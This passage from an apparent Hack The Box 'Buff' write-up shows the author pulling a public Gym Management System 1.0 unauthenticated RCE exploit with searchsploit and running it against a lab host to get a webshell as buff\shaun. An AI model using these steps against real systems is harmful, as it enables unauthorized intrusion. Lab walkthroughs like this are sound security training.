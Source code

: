 And of course I went to Google search for any exploit or `RCE` for this system and found [**RCE**](https://www.exploit-db.com/exploits/48506)
```shell
ezi0x00@kali:~/HTB/Buff$ searchsploit -m php/webapps/48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/ezi0x00/HTB/Buff/48506.py


ezi0x00@kali:~/HTB/Buff$ mv 48506.py gym_rce.py
ezi0x00@kali:~/HTB/Buff$ 
```
let's get a `shell`
```shell
ezi0x00@kali:~/HTB/Buff$ python gym_rce.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> 
```
Successfully Connected.
```shell
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun
C:\xampp\htdocs\gym\upload> cd ..
�PNG
▒
```
WTF? 
Little did he know that his joy was not complete.
![website](/assets/img/Posts/nohappy.jpg)

